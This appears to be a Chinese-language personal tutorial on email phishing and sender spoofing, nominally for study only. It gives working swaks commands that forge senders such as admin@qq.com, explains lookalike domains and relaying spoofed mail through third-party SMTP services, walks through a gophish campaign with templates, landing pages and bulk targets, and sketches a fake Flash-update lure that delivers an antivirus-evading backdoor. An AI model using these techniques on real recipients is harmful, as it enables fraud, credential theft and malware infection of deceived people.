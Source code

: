 声明：以下内容仅供个人学习测试

邮件钓鱼-无SPF-直接伪造发信人
邮件钓鱼-有SPF-伪造无SPF的域名
邮件钓鱼-有SPF-三方中转伪造发信人
邮件钓鱼-有SPF-自建中转伪造发信人
邮件钓鱼-平台框架gophish程序-优化内容&收信&页面


## **无SPF发送人伪造**
邮箱域名检测
如果自建域名邮箱，可能没有SPF，此时可以kali一键伪装发件人的自建邮箱域名。
检测是否有SPF：
```
//linux
dig -t txt qq.com 
//windows
nslookup -type=txt qq.com 
```
响应：
```
"v=spf1 -all" （拒绝所有，表示这个域名不会发出邮件）

"v=spf1 +all" （接受所有）

"v=spf1 ip4:192.168.0.1/16 -all"（只允许 192.168.0.1/16 范围内的 IP发送邮件）
```
kali直接自定义发件人发送
```
swaks --header-X-Mailer "" --header-Message-Id ""
--header- "Content-Type"="text/html" 
--from "我是QQ<admin@qq.com>" 
--ehlo shabimeiguo -header "Subject：测试" 
--body 我们做了一个测试 
--to mubiao@027168.com
```
## **有SPF，修改邮箱字眼，造成无SPF**
如：
阿里官方system@notice.aliyun.com
那就仿造system@notice.aliyun.com.cn
system@notice.a1iyun.com
```
swaks --body "test" \
--header "Subject:这是标题" \
-t 3312@qq.com \
-f newsletter1@1jd.com.cn \
```

## **第三方邮箱系统中转伪造发信**
如qq邮箱，网易邮箱，都可以开启POP3/SMTP服务。
获取服务地址和密钥
自定义.eml文件(修改时间，发送人地址等)放入kali
使用swaks调用发送邮箱
```
1、将要发送的邮件导出 EML 模版
2、修改内置的发件人内容时间等
swaks --to 收信人 -f 发信人 --data 1.eml --server smtp.163.com -p
25 -au 帐号 -ap 授权码
```
接收方收到的邮箱，会提示由xx@163.com代发。

## **自建邮箱系统中转伪造发信**
使用第三方平台
设置 SPF，中转平台突破
1、smtp2go（速度慢但免费发送量大）
2、SendCloud（速度快但免费发送量少）
注册获取服务端，即可获得邮箱系统。
可自定义发送人邮箱地址，但会提示由以上转发。

3、当然也可以自己搭建邮件服务器-Ewomail&Postfix。防止邮箱被封且域名自定义。
https://www.smtp2go.com/
https://www.sendcloud.net/
http://www.ewomail.com/




## **平台框架gophish程序**
含有各种钓鱼模板
下载部署：<https://github.com/gophish/gophish/releases>
发送平台gophish，钓鱼平台。邮件源码中找到他的gophish服务器ip，https://:3333，尝试弱口令登录后台进行反制。
程序有exe，启动即可监听3333端口。
配置smtp账号密钥，不要使用网易的容易被封（接收方显示这个邮箱为转发人）。

配置发件接口（自定义）
配置发信模版（复制eml代码转成html页面，更逼真）
配置触发页面（钓鱼用）
配置收信人地址止（批量套）


## **钓鱼思路**
如：发送一个邮件内容gif动态图片动画视频flash格式动画动画制作本身就播放不了为了诱惑性在动画提示需要更新flash对方点击动画来到了钓鱼页面（官方的flash网站）下载更新文件（免杀后门）。